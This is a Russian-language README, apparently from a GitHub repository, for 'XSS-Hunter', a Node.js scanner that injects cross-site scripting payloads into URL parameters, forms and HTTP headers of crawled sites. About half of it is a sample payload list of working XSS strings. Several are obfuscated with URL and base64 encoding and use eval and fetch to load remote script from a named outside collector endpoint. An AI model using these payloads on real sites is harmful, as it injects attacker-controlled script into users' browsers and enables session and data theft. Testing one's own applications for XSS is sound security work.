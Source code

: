 # XSS-Hunter

XSS-Hunter: Простой Сканер Уязвимостей XSS

XSS-Hunter — это простой, но эффективный сканер для поиска уязвимостей Cross-Site Scripting (XSS) на веб-сайтах. Этот инструмент разработан для автоматического обнаружения отраженных XSS через различные векторы, включая параметры URL, данные форм (GET/POST) и HTTP-заголовки. Он также поддерживает базовый краулинг для обнаружения большего количества потенциально уязвимых страниц.

Основные возможности:

   Сканирование параметров URL: Проверяет GET и POST параметры на наличие отраженных XSS.
   Анализ и тестирование форм: Автоматически извлекает формы со страниц и внедряет пейлоады во все их поля.
  Тестирование HTTP-заголовков: Проверяет распространённые заголовки (User-Agent, Referer, Cookie, X-Forwarded-For) на предмет отражения.
   Базовый краулинг: Обходит страницы целевого сайта для расширения области сканирования.
   Настраиваемые пейлоады и цели: Использует файлы для загрузки списков пейлоадов и целевых URL.
  Логирование результатов: Сохраняет все найденные уязвимости и информацию о сканировании в структурированные файлы логов.
  Верификация XSS (опционально): Позволяет настроить внешний сервер для подтверждения выполнения JavaScript, что снижает количество ложных срабатываний.
  Контроль параллелизма и ретраи: Ограничивает количество одновременных запросов и повторяет неудачные попытки для повышения надёжности.

Начало работы

Чтобы начать пользоваться XSS-Hunter, вам необходимо выполнить несколько простых шагов.
Требования

   Node.js: Убедитесь, что у вас установлена актуальная версия Node.js (рекомендуется LTS). Вы можете скачать её с официального сайта Node.js.

Установка
    Клонируйте репозиторий
    
    git clone https://github.com/your-username/xss-hunter.git
    
Далее

      cd xss-hunter

(Замените your-username на имя вашего пользователя GitHub после публикации).

Установите зависимости:
Bash

    npm install

Конфигурация

Перед запуском сканера вам нужно настроить файлы с пейлоадами и целевыми URL, а также (опционально) изменить параметры в коде.

   payloads.txt: Создайте этот файл в корневой директории проекта. Каждая строка в нём должна содержать один XSS-пейлоад.
    Пример payloads.txt:

    <script>alert(1)</script> 
    "><script>alert(1)</script>
    '><script>alert(1)</script>
    "><img src=x onerror=alert(1)>
    <svg onload=alert(1)>
    <iframe src="javascript:alert(1)"></iframe>
    <math href="javascript:alert(1)">CLICK</math>
    <video><source onerror="alert(1)">
    <details open ontoggle=alert(1)>
    <marquee onstart=alert(1)>
    <isindex action=javascript:alert(1)>
    <base href="javascript://"><script>alert(1)</script>
    <embed src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
    <svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
    "><style>@keyframes x{}</style><svg onload=alert(1)>
    <script/src=data:text/javascript,alert(1)>
    "><script src=//0x7f.0x0/alert(1)></script>
    "><object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
    <svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
    <svg><foreignObject><iframe src=javascript:alert(1)></iframe></foreignObject></svg>
    <svg><script xlink:href="data:image/svg+xml,%3Cscript%3Ealert(1)%3C/script%3E"></script></svg>
    "><input autofocus onfocus=alert(1)>
    '"><script src=https://xss.report/c/flamie></script>
    javascript:eval('var a=document.createElement(\'script\');a.src=\'https://xss.report/c/flamie\';document.body.appendChild(a)')
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*&lt;svg/*/onload=(import(/https:\xss.report\c\flamie/.source))//>
    %3Cbody%20onload=%22var%20a=document.createElement('script');a.src='https://xss.report/c/flamie';document.body.appendChild(a)%22%3E
    %22%3E%3Cimg%20src=x%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2ZsYW1pZSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%20onerror=eval(atob(this.id))%3E
    javascript:%22/*'/*%60/*--%3E%3C/noscript%3E%3C/title%3E%3C/textarea%3E%3C/style%3E%3C/template%3E%3C/noembed%3E%3C/script%3E%3Chtml%20%22%20onmouseover=/*&lt;svg/*/onload=(import(/https:%5Cxss.report%5Cc%5Cflamie/.source))//%3E
    %3Cscript%3Efetch(%22//xss.report/c/flamie%22).then(r=%3Er.text()).then(t=%3Eeval(t))%3C/script%3E
    var%20a=document.createElement(%22script%22);a.src=%22https://xss.report/c/flamie%22;document.body.appendChild(a);
    '%22%3E%3Cscript%20src=https://xss.report/c/flamie%3E%3C/script%3E
    "><form><button formaction="javascript:alert(1)">X</button></form>
    "><button formaction="javascript:alert(1)">CLICK</button>
    <svg xmlns="http://www.w3.org/2000/svg"><script href="data:,alert(1)"/>
    "><script id="xss">eval(atob('YWxlcnQoMSk='))</script>
    <iframe srcdoc="<script>alert(1)</script>">
    <svg><animate attributeName="href" values="javascript:alert(1)" />

  url.txt: Создайте этот файл в корневой директории проекта. Каждая строка должна содержать один полный URL целевого сайта, который вы хотите сканировать.
    Пример url.txt:

    http://testphp.vulnweb.com/
    http://www.example.com/

   CONFIG в main.js (опционально): Откройте файл main.js и отредактируйте объект CONFIG в верхней части файла, если вам нужны особые настройки.
    JavaScript

    const CONFIG = {
        payloadsFile: 'payloads.txt',
        targetsFile: 'url.txt',
        logDir: 'log',
        commonPaths: ['/', '/search', '/index.php', '/catalog', '/blog', '/products', '/news', '/admin', '/login', '/register'],
        commonParams: ['q', 's', 'search', 'query', 'term', 'id', 'item', 'page', 'input', 'keywords', 'txt', 'user', 'password'],
        concurrencyLimitPerSite: 5,
        timeout: 30000,
        maxCrawlDepth: 3,
        // --- ОПЦИОНАЛЬНО ---
        // Укажите URL вашего контролируемого сервера для верификации XSS.
        // Если пусто или null, верификация исполнения JS будет пропущена (только проверка отражения).
        // Пример: 'http://your-controlled-server.com'
        verificationServer: null, // ИЗМЕНИТЕ ЭТО НА СВОЙ СЕРВЕР ДЛЯ РЕАЛЬНОЙ ВЕРИФИКАЦИИ!
        // -------------------
        customHeaders: {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
        },
        retryAttempts: 3,
        retryFactor: 2,
        retryMinTimeout: 1000,
        retryMaxTimeout: 5000
    };

   Особое внимание уделите verificationServer: Если вы хотите получать реальное подтверждение выполнения XSS-пейлоада (а не только его отражение на странице), вам нужно развернуть простой HTTP-сервер, который будет слушать входящие запросы на указанный URL и записывать их. Если этот параметр null, сканер будет сообщать о "потенциальной XSS" только на основе отражения пейлоада, что может привести к ложным срабатываниям.

Запуск сканера

После настройки файлов и (опционально) CONFIG, вы можете запустить сканер:
Bash

    node main.js

Сканер начнет работу, обходя целевые URL и тестируя их на XSS. Все найденные уязвимости будут записываться в поддиректории внутри папки log/.
Результаты сканирования

Все логи и найденные уязвимости сохраняются в директории log. Для каждого запуска сканера будет создана новая папка вида log N (например, log 1, log 2), а внутри неё — отдельные папки для каждого сканируемого домена. В этих папках вы найдёте текстовые файлы с подробной информацией о найденных XSS, включая URL, использованный пейлоад, параметр и метод запроса.
